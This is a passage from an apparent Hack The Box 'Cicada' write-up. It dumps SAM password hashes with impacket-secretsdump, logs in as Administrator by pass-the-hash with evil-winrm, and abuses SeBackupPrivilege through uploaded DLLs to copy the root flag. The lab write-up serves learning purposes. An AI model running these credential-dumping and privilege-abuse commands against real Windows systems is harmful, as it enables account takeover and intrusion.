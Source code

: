 On our local machine we dump the admin hash with the following command.

```
impacket-secretsdump -sam sam -system system local
```

![impacket hash dump](/images/HTB-Cicada/hash_dump.png)

> `pypykatz` can also be used to dump the hashes with the command `pypykatz registry --sam sam system`.

We can now login as the Administrator and read the root flag.

```
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![Administrator login via EvilWinRM](/images/HTB-Cicada/root_flag.png)

### Local Attack

We can also use the method described [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#backup-operators). You will need to go to [this](https://github.com/giuliano108/SeBackupPrivilege) Github repo to get `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll`.

1. After cloning the repo we send the files to the target via our evil-winrm shell.

```
upload /home/kscorpio/Machines/HTB/Cicada//SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll

upload /home/kscorpio/Machines/HTB/Cicada//SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```

![SeBackup files](/images/HTB-Cicada/SeBackup_files.png)

2. Import the libraries

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

![Modules Import](/images/HTB-Cicada/Modules_Import.png)

3. Copy the root flag

```
Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\emily.oscars.CICADA\Documents\root.txt
```

![root flag copied](/images/HTB-Cicada/copy_root_flag.png)



